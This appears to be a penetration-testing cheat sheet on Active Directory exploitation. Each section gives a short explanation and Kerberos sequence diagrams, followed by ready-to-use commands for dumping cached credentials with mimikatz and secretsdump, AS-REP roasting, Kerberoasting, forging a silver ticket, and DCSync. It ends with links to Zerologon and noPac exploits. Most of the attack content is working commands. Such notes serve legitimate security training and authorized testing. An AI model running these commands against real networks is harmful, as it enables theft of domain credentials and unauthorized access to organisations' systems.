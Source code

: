 # ⚔️ AD Exploitation

## Dumping Cached AD Credentials

!!! info
    **SYSTEM** privileges are needed

```shell
# linux
impacket-secretsdump -target-ip <target_ip> <domain>/<user>:<pass>@<target_ip>

# win
.\mimikatz.exe
privilege::debug

# dump cached NTLM hashes on the current system
sekurlsa::logonpasswords

# dump tickets
sekurlsa::tickets

# one-liner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## Basic Kerberos Authentication

```mermaid
sequenceDiagram
    participant C as Client
    participant AS as Authentication Server
    participant TGS as Ticket Granting Server
    participant S as Service

    C->>AS: AS-REQ (with credentials)
    AS-->>C: AS-REP (TGT, Session Key for TGS)
    Note right of C: Stores TGT and session key to talk with TGS

    C->>TGS: TGS-REQ (TGT, Authenticator, SPN of Service)
    TGS-->>C: TGS-REP (Service Ticket, Session Key for Service)
    Note right of C: Now has a ticket & session key to talk with Service

    C->>S: AP-REQ (Service Ticket, Authenticator)
```

## AS-REP Roasting

Attack that exploits accounts with **Do not require Kerberos preauthentication** enabled to obtain and crack TGTs offline, revealing the user's NTLM hash.

```mermaid
sequenceDiagram
    participant Attacker
    participant KDC

    Attacker->>KDC: AS-REQ (Username, "Pre-Authentication Not Required")
    activate KDC
    KDC-->>Attacker: AS-REP (TGT encrypted with user's NTLM hash)
    deactivate KDC

    Attacker->>Attacker: Offline Cracking (Attempt to crack TGT to reveal NTLM hash)
```

!!! info
    🐈‍⬛ Hashcat mode -> 18200

```shell
# linux
impacket-GetNPUsers -dc-ip <ip> -request <domain>/<user>:<password>

# windows
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting

Attack that targets service accounts by requesting service tickets and cracking them offline to obtain the account's password.

```mermaid
sequenceDiagram
    participant Attacker
    participant KDC
    participant Service

    Attacker->>KDC: AS_REQ (Valid User Credentials)
    activate KDC
    KDC-->>Attacker: AS_REP (TGT)
    deactivate KDC

    Attacker->>KDC: TGS_REQ (TGT, SPN of target service)
    activate KDC
    KDC-->>Attacker: TGS_REP (Service Ticket encrypted with service account's password)
    deactivate KDC

    Attacker->>Attacker: Offline Cracking (Attempt to crack service ticket)

    Attacker->>Service: AP_REQ (Service Ticket, Authenticator)
    activate Service
    Service-->>Attacker: Access Granted
    deactivate Service
```

!!! info
    🐈‍⬛ Hashcat mode -> 13100

```shell
# sync local time with server if error
ntpdate <dc_ip>

impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>

# windows
.\Rubeus.exe kerberoast /nowrap
```

## Silver Ticket

Is a forged Kerberos Ticket Granting Service (TGS) ticket that allows an attacker to gain unauthorized access to a specific service, bypassing the need to request a ticket from the Key Distribution Center (KDC) after initial authentication.

```mermaid
sequenceDiagram
    participant Attacker
    participant Target Service

    Attacker->>Attacker: Extracts NTLM hash of Service Account
    Attacker->>Attacker: Creates forged TGS (Silver Ticket)
    Attacker->>Target Service: Forged AP-REQ (Sends forged TGS to access service)
    Target Service-->>Attacker: AP-REP (Grants unauthorized access)
```

Three pieces of info are needed:

- SPN password hash
- Domain SID
- Target SPN

```shell
# windows 
# SPN hash
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# domain SID
whoami /user
# take everything except the last part; only the domain SID, not the user RID

# forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit

# show saved tickets
klist

# access the service
iwr -UseDefaultCredentials <servicename>://<computername>

# linux
impacket-ticketer -nthash <hash> -domain-sid <sid> -domain <domain> -spn <spn> <user>

# export the ticket
export KRB5CCNAME=<ticket>.ccache

# access the target
impacket-psexec <domain>/<user>@<target> -k -no-pass
```

## DCSync

Is an attack that allows an attacker with sufficient privileges to request password hashes and other sensitive information directly from a domain controller, effectively mimicking the behavior of a legitimate domain controller replicating data.

The user needs the following permissions or must belong to a privileged group:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

!!! info
    🐈‍⬛ Hashcat mode -> 1000

```shell
# linux
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>

# windows
.\mimikatz.exe
lsadump::dcsync /user:<domain\user>

# one-liner
.\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
```

## CVEs and Exploits

- [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
- [MS14-068 - Golden Pac](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) `impacket-goldenPac`
- [CVE-2021-42278 and CVE-2021-42287 - noPac](https://github.com/Ridter/noPac)
